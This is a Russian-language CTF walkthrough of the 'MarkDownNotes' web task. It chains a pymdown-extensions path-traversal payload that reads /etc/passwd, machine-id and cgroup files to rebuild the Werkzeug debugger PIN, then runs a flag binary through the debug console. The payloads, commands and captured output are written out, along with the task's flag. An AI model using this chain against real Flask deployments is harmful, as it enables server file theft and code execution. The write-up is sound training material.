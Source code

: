 Author: @k3vg3n

Райтап на Web таск от CyberEd - "MarkDownNotes"

Описание: "MarkDownNotes - очередной сайт для хранения заметок. Мы заботимся о безопасности данных наших клиентов! Однако на поддержание сервиса уходит много средств, поэтому бесплатно предоставляются только 10 заметок. Используйте их с умом! Акция: найдите багу по программе бабаунти и докажите её, исполнив файл read_flag в корне приложения, и получите бесплатное пользование сервисом навсегда!"

После регистрации на [сайте](http://mdn.cyber-ed.space) нас встречает сервис заметок:
![main_site](https://github.com/k3vg3n/MDN/assets/87700221/7a506887-a406-41d5-a6d2-1bda25fa43d7)

Добавлять можно до 10 заметок на аккаунт.


### Разведка
Запустим nikto:

![nikto_out](https://github.com/k3vg3n/MDN/assets/87700221/d70df5d4-7285-463c-b0a1-5e2c44769ed0)


Переходим на http://mdn.cyber-ed.space/console:
![flask_console](https://github.com/k3vg3n/MDN/assets/87700221/6549e1d5-abeb-4844-86d3-3ec23e4dada3)

На нем находится Werkzeug Debugger, значит сайт написан на Flask.
Чтобы зайти в консоль и выполнить файл read_flag нам нужно знать pin-код, а у нас его нет.
Из [статьи](https://habr.com/ru/articles/738238/pin-код) узнаем, что pin-код flask генерируетcя на основе:
1.  Appname (`getattr(app, "__name__", type(app).__name__)`) по умолчанию имеет значение `Flask`
2. `getattr(mod, "__file__", None),` или путь до Flask
3. Modname, по умолчанию `flask.app`
4. Username - имя пользователя в системе linux
5. MAC-адрес устройства
6. Machine_id - ID устройства

Нам сразу известны Appname и Modname.
Надо найти остальные значения, прочитав файлы в системе.

### Получаем AFR (arbitrary file read)
Тут обращаемся к особенности таска - *markdown*.
Ищем расширения на python:
![markdown_search](https://github.com/k3vg3n/MDN/assets/87700221/21fad3e3-d858-4a2d-87f8-feded7cb1525)

Находим два основных расширения: Python-Markdown и pymdown-extensions.
На Python-Markdown я не нашел AFR, в отличии от pymdown-extensions ([CVE-2023-32309](https://www.cve.org/CVERecord?id=CVE-2023-32309), [github](https://github.com/advisories/GHSA-jh85-wwv9-24hv)):
![pymdown_AFR](https://github.com/k3vg3n/MDN/assets/87700221/ec8d3dfd-5423-496a-bd68-461ae102a6eb)

Создадим шаблон, который мы будем менять и отправлять: `--8<-- "../../../../etc/passwd"`

Попробуем прочитать /etc/passwd (`--8<-- "../../../../etc/passwd"`):

![passwd](https://github.com/k3vg3n/MDN/assets/87700221/080749f6-43dc-4ac7-9753-82635796aa36)

Успешно.
Теперь мы можем прочитать нужные нам файлы для генерации pin-кода.

### Получение данных и генерация pin-кода
Имя пользователя мы уже получили из /etc/passwd - "app".
Чтобы получить MAC-адрес, нам нужно знать по какому интерфейсу устройство выходит в сеть. Для этого читаем файл `/proc/net/dev` (`--8<-- "../../../../proc/net/dev"`):
```
Inter-| Receive | Transmit face |bytes packets errs drop fifo frame compressed multicast|bytes packets errs drop fifo colls carrier compressed eth0: 86949846 338155 0 0 0 0 0 0 100381675 357756 0 0 0 0 0 0 lo: 1341217 13102 0 0 0 0 0 0 1341217 13102 0 0 0 0 0 0
```
Видно, что соединение происходит по eth0.
Смотрим MAC-адрес (`--8<-- "../../../../sys/class/net/eth0/address"`):
`02:42:ac:18:00:04`

Чтобы найти machine-id читаем файл `/etc/machine-id`:
`04a9330868336aa19c457b402d5a4f7c`
и  `/proc/self/cgroup`:
```
12:blkio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
11:rdma:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
10:pids:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
9:perf_event:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
8:freezer:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
7:net_cls,net_prio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
6:devices:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
5:hugetlb:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
4:cpu,cpuacct:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
3:cpuset:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
2:memory:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
1:name=systemd:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
```
Из `/proc/self/cgroup` нам нужна последняя строчка:
`0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9`

Чтобы найти путь к app.py мы должны вызвать ошибку в Flask. Для этого можно отправить POST запрос на создание заметки без указания "title" и "content": 
```
POST 
http://mdn.cyber-ed.space/profile 
Cookie: session=your_cookie
```
![burp1](https://github.com/k3vg3n/MDN/assets/87700221/32369825-70ee-4fc7-8109-dd40a7089a59)


Путь к приложению: `/usr/local/lib/python3.8/site-packages/flask/app.py`

Итого имеем:
```
machine_id: 04a9330868336aa19c457b402d5a4f7c
username: app
name: Flask
Modname: flask.app
MAC: 02:42:ac:18:00:04
path: /usr/local/lib/python3.8/site-packages/flask/app.py
```

Для генерации pin-кода и cookie используем [этот скрипт](https://github.com/SidneyJob/Werkzeuger).

Устанавливаем:
```
git clone https://github.com/SidneyJob/Werkzeuger
cd Werkzeuger
```

Запускаем скрипт, подставляя наши значения:
```
python gen.py --username app --path /usr/local/lib/python3.8/site-packages/flask/app.py --mac 02:42:ac:18:00:04 --machine_id 04a9330868336aa19c457b402d5a4f7c  --cgroup 0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9

```
Получаем куки:
![run_script](https://github.com/k3vg3n/MDN/assets/87700221/14e40c6d-a0ec-4853-8a4a-92fcd6295981)

![run_script_out](https://github.com/k3vg3n/MDN/assets/87700221/fd20a744-4bbc-4eb1-8154-6cb34596c43b)


Нам нужны строчки:
```
[+] Success!
[*] PIN: 233-535-197
[*] Cookie: __wzd49d0c27c7911c3fc007f=1710008146|6e27d4a6cf2a
[*] Modname: flask.app
[*] Appname: Flask
```


### Получаем доступ к консоли
Если у Вас превышен лимит на ввод pin-кода, то открываем [консоль](http://mdn.cyber-ed.space/console) и подставляем куки в браузер (иначе можете просто ввести pin):
![new_cookie](https://github.com/k3vg3n/MDN/assets/87700221/cf07246a-b090-4da9-b2b3-ca667192cfbf)

Перезагружаем страницу.
Мы зашли в консоль.
![console_enter](https://github.com/k3vg3n/MDN/assets/87700221/7dd318ef-c31c-430b-8d00-d6c3ecf2617a)



### Получаем флаг
Посмотрим файлы в директории:
```
import subprocess
subprocess.run(["ls", "-lah"], capture_output=True)
```
Видим тот самый файл с флагом.
```
CompletedProcess(args=['ls', '-lah'], returncode=0, stdout=b'total 72K\ndrwxr-xr-x 1 app app 4.0K Mar 9 15:14 
ndrwxr-xr-x 1 root root 4.0K Mar 5 14:38 
-rw-r--r-- 1 app app 519 Sep 23 20:02 config.py
-rwxr-xr-x 1 app app 151 Sep 22 15:07 entrypoint.sh
-rw-r--r-- 1 app app 162 Sep 23 18:35 main.py
-rw-r--r-- 1 app app 599 Sep 22 15:07 manage.py
drwxr-xr-x 1 app app 4.0K Sep 22 14:19 models
drwxr-xr-x 1 app app 4.0K Sep 23 19:26 modules
---s--x--x 1 root root 17K Sep 23 16:40 read_flag
-rw-r--r-- 1 app app 118 Sep 23 18:38 requirements.txt
drwxr-xr-x 4 root root 4.0K Sep 22 14:52 static
drwxr-xr-x 1 app app 4.0K Sep 22 14:23 templates
drwxr-xr-x 1 app app 4.0K Sep 23 18:33 utils', stderr=b'')
```
Смотрим в какой директории мы находимся:
```
subprocess.run(["pwd"], capture_output=True)
```
Мы находимся в папке "/app":
`CompletedProcess(args=['pwd'], returncode=0, stdout=b'/app\n', stderr=b'')`

Чтобы выполнить файл "read_flag" вводим команду:
```
subprocess.run(["/app/read_flag"], capture_output=True)
```
Получаем флаг:
```
CompletedProcess(args=['/app/read_flag'], returncode=0, stdout=b'flag{fl45k_d3bu6_m0d3_15_un54f3}', stderr=b'')
```
![console_flag](https://github.com/k3vg3n/MDN/assets/87700221/5ea91a4d-be37-4294-b1e7-258164b0c2b8)

##### Флаг: flag{fl45k_d3bu6_m0d3_15_un54f3}


### Спасибо за прочтение!

Полезные ссылки:

https://habr.com/ru/articles/738238/

https://security.snyk.io/vuln/SNYK-PYTHON-PYMDOWNEXTENSIONS-5537103
